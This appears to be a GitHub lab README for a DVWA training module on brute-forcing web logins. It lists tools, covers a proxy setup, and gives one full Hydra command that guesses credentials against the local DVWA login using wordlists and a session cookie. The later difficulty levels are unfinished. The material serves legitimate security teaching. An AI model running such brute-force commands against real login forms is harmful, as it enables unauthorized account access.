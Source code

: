 # SIP-DVWA - Brute Force Module

## Brute Force DVWA

Brute forcing web applications involves repeatedly attempting to guess login credentials or access sensitive areas by systematically trying different combinations of usernames and passwords. It can exploit weak or common passwords and is often mitigated by rate-limiting, CAPTCHAs, or account lockouts after multiple failed attempts. Effective defenses against brute force attacks include strong password policies, multi-factor authentication, and monitoring for suspicious login patterns.

## Tools Used In Lesson
- Kali Linux
- Burp Suite
- Hydra
- wfuzz
- Foxy Proxy Standard
- Seclists
- DVWA (Damn Vulnerable Web App)

## Links

- Applications
  - Burp Suite - https://portswigger.net/burp/communitydownload
  - Foxy Proxy - https://getfoxyproxy.org/downloads/
  - Hydra - https://www.kali.org/tools/hydra/
  - wFuzz - https://www.kali.org/tools/wfuzz/
- Web App
  - DVWA Repository - https://github.com/digininja/DVWA
- Wordlist
  - Seclists- https://www.kali.org/tools/seclists/

## Foxy Proxy Install

1. Open Firefox download and install the Foxy Proxy Standard Browser Exstension https://getfoxyproxy.org/downloads/
2. Configure proxy for burpsuite
   1. Click on exstension and select options
      - ![2024-09-11_14-45](https://github.com/user-attachments/assets/3ae3511e-5d6c-461a-a751-99242181359d)
   3. click on proxies tab
      - ![2024-09-11_14-46](https://github.com/user-attachments/assets/b8aca22f-c2e2-4a4a-b07a-97b832318c4a)
   4. configure proxy to match aove screeshot
  
## Brute Force Methods

### Low

## Burp Suite

## Hydra

- Get PHPSESSID by inspecting the brute force login page in web browser. The ID is found under network tab under html type.
- login with known credentials and follow the URL for the user picture to find the directory of users profile image. Use the names to make a user list .txt file
- Use this command and replace the PHPSESSID with your ID

```
hydra -L '/home/kali/Documents/users.txt'  -P '/usr/share/seclists/Passwords/darkweb2017-top100.txt'  'http-get-form://127.0.0.1/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=vu38odo9072l1dpa1b7l64nn0m; security=low:F=Username and/or password incorrect'
```

-L provides list of users
-P provides list of passwords
- http-get-form uses the http get method to insert the user and password from your lists

### Medium

## Coming Soon

### High

## Coming Soon

### Impossible

## Coming Soon

## Links to learn more

- https://owasp.org/www-community/attacks/Brute_force_attack
- https://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
- https://www.golinuxcloud.com/brute-force-attack-web-forms



